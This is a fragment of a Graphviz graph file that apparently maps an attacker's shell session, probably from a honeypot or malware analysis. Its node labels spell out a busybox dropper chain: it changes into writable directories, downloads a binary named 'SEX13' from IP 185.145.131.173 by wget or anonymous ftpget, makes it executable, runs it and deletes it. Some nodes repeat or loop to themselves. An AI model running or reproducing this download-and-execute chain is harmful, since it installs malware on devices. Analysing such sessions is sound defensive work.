848 [label="rm -rf SEX13 "];
848 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 860 [label="||,"];
860 [label="/bin/busybox wget http://185.145.131.173/SEX13 "];
860 -> 862 [label=";,"];
862 [label="/bin/busybox chmod +x SEX13 "];
862 -> 864 [label=";,"];
864 [label="./SEX13 "];
864 -> 881 [label=";,"];
881 [label="/bin/busybox rm -rf SEX13 "];
881 -> 868 [label=";,"];
868 [label="/bin/busybox cd /tmp "];
868 -> 868
870 [label="/bin/busybox cd /var/run "];
870 -> 872 [label="||,"];
872 [label="/bin/busybox cd /mnt "];
872 -> 874 [label="||,"];
874 [label="/bin/busybox cd /root "];
874 -> 876 [label="||,"];
876 [label="/bin/busybox cd / "];
876 -> 878 [label="||,"];
878 [label="/bin/busybox ftpget -v -u anonymous -p anonymous -P 21 185.145.131.173 SEX13 SEX13 "];
878 -> 880 [label=";,"];
880 [label="/bin/busybox chmod +x SEX13 ./SEX13 "];
880 -> 881 [label=";,"];
}
